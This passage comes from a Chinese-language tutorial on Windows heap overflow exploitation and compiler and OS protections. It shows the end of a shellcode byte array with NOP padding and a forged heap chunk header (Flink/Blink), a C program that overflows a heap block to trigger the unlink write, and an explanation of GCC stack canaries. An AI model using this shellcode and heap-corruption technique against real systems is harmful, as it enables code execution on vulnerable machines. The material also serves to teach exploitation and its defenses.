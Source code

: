 ```
"\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03"
"\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53"
"\x50\x50\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00" // 块首的8字节
"\x88\x06\x52\x00\x20\xf0\xfd\x7f"; // Flink+Blink,Blink为0x7ffdf020,Flink为00520688

int main() {
    HLOCAL h1=0,h2=0;
    HANDLE hp=HeapCreate(0,0x1000,0x10000);
    //print_shellcode();return 0;
    h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
    memcpy(h1,shellcode,0x200);
    //_asm int 3;
    h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
    return 0;
} 
```

Flink的值需要在调试时确定,指向shellcode起始位置

## 0x04 第二部分：溢出保护和绕过

我们常说的溢出,就是要覆盖缓冲区,现代的操作系统针和编译器对此种攻击做出了很多的防御措施.

第一层是编译器层面,例如gcc的stack protector,vc的gs,第二层是操作系统层面的DEP,aslr,safeseh,sehop等.

所谓知己知彼百战不殆.下文详情

## 0x05 编译器层面

gcc在编译时会自动插入一个随机的cookie,也叫做金丝雀值(历史上用金丝雀来检查煤矿中是否有有毒气体),保存在ebp-8字节的位置,函数每次调用完成将返回地址交给eip的之前会检查cookie是否被改写,假如被改写就触发异常,程序停止执行.

看代码:

```
#!bash
push ebp
mov esp,ebp
push ebx
sub esp,xxx ;插入cookie
mov eax,gs:[20]
mov [ebp-8],eax
xorl eax,eax
;插入完毕

;execute some code....
;恢复ebx和ebp和ret之前的动作:
mov eax,[ebp-8]
xor eax,gs:[20]
je true:

call stack_check_fail
;假如cookie被覆盖,xor后为1,没进入if,调用stack_check_fail触发异常

true:
add esp,20
pop ebx
pop ebp
ret 
```
